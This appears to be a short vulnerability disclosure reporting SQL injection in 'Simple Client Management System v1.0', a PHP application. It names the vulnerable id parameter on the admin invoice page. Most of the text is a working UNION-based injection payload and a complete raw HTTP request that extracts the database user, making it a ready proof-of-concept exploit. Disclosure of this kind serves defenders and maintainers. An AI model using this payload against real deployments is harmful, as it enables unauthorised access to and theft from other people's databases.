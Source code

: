 # Simple-Client-mMnagement-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/?page=invoice/manage_invoice&id= // Leak place ---> id

Vulnerability location: /cms/admin/?page=invoice/manage_invoice&id=, id

[+] Payload: /cms/admin/?page=invoice/manage_invoice&id=2%27%20union%20select%201,user(),3,4,5,6,7,8,9,10,11,12--+ // Leak place ---> id

```sql
GET /cms/admin/?page=invoice/manage_invoice&id=2%27%20union%20select%201,user(),3,4,5,6,7,8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
// Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164882791-7e6ec922-2c33-4400-bcbb-16d3585c07ce.png)

![image](https://user-images.githubusercontent.com/54017627/164882796-7e5b7866-92fb-47a6-906b-6ed605489343.png)


